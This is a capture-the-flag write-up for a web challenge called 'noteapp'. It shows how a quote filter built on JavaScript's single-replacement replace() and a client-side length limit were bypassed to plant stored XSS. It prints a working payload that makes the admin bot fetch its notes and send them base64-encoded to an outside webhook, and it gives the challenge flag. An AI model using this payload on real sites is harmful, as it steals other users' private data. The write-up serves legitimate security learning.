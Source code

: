 # noteapp

## problem

```
I made this notekeeper to keep your notes safe. Its not an heap chall 😉

The flag is in the admin's notes.
```

## solution

sourceless web, despite what the rules for making challs say...

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/3166c548-c8a8-456b-9c24-87eb60ac3792)

also, i dont know what a heap chall is.

this was made by 0xM4hm0ud, and i know that 0xM4hm0ud loves pwn more than anything else, so i was scared to see a 150pt chall from him.

anyways, it was a pretty simple XSS chall.

we are presented with a login screen at first

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/7609ff9a-2ccd-4f17-8132-e8605c50ea7d)

we can register too

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/16f2ced0-77f6-42af-95f7-b3ced5b5f786)

here, i will register as qww a bunch

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/a8e8eedd-7b66-494c-a7e8-4ee8783d3fa2)

we can see that there are a few things we can do here

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/c1cfab22-b316-48fc-b3da-0695fcffe460)

we know the flag is in the admins notes, but we dont know the admin password

we can use `/report` to report a site to the admin bot

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/4d013ee5-ef2e-4ebc-a1d9-1ed211cf3334)

we also know that the token is stored as the `connect.sid` cookie like so: ![image](https://github.com/quasar098/ctf-writeups/assets/70716985/19a4f741-a89d-4b54-aec4-7baed6dcf971)

one of the controls that we have in this website is to change our user profile

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/29a4a1ff-a5a8-451f-be82-c27b41fd76ac)

here, we can do an XSS.

the intended solution here was to overflow a wasm buffer to bypass quote filtering and get an XSS, but i dont know how to do that. so, i used two quotes instead of one to bypass the quote filter

this is the source of the filtering, hidden from us:

```js
        const username = req.body.username.replace("\"", "");
        const email = req.body.email.replace("\"", "");
```

the vulnerability here, which we couldn't see, was that javascript's replace function only replaces the first occurence of a string

so, a script like

```js
let thing = `
fetch('/notes').then((r) => {r.text().then((w) => {fetch('https://webhook.site/96d5c0f0-d4be-488e-<rest-of-webhook>?d=' + btoa(w))})})
</script>`;
fetch("http://167.99.0.85/updateprofile", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9,ar;q=0.8",
    "cache-control": "no-cache",
    "content-type": "application/x-www-form-urlencoded; charset=UTF-8",
    "pragma": "no-cache",
    "x-requested-with": "XMLHttpRequest"
  },
  "referrer": "http://167.99.0.85/profile/<profileid>",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": `username=%22%22%3E%3Cscript%3E${encodeURIComponent(thing)}&email=`,
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
});
```

will work. note that the username length restriction is client-side only, so we can spoof a request and bypass the restriction

the payload is as follows: `""><script>${encodeURIComponent(thing)}fetch('/notes').then((r) => {r.text().then((w) => {fetch('https://<malicious-site-url>/?d=' + btoa(w))})})</script>`

we put two quotes to bypass the replace, and then escape out of the span tag. then, we enter a new script and place in the rest of our payload

note that the `connect.sid` is httpOnly true, so we can't access it from code. however, we can execute code as the admin, 
which allows us to fetch the admins notes and then send them back to us, without having to log in as the admin

anyways, the flag is `ictf{w4sm_0v3rfl0w_t0_xSs_c67e2ec016f0bc0e495655ee70fe2a2d}`

i didn't even see that there was a wasm file...
